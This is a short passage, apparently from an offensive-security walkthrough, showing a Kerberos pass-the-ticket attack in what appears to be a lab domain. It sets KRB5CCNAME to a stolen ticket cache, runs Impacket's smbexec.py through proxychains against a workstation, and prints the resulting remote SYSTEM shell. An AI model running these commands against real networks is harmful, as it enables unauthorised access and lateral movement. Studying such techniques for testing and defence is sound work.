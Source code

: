 We then need an environment variable called `KRB5CCNAME` that points to the ticket on disk.

```powershell
attacker@DESKTOP-FGSTPS7:~$ export KRB5CCNAME=/mnt/c/Users/Attacker/Desktop/rsteel.ccache
```

Then instead of using a plaintext password, we use Impacket's `-no-pass`, `-k`, and `-dc-ip` parameters.

```powershell
attacker@DESKTOP-FGSTPS7:~$ proxychains smbexec.py -no-pass -k -dc-ip lon-dc-1 CONTOSO.COM/rsteel@lon-ws-1
ProxyChains-3.1 (http://proxychains.sf.net)
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.10:445-<><>-OK
|S-chain|-<>-10.0.0.5:1080-<><>-10.10.120.1:88-<><>-OK
[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>
```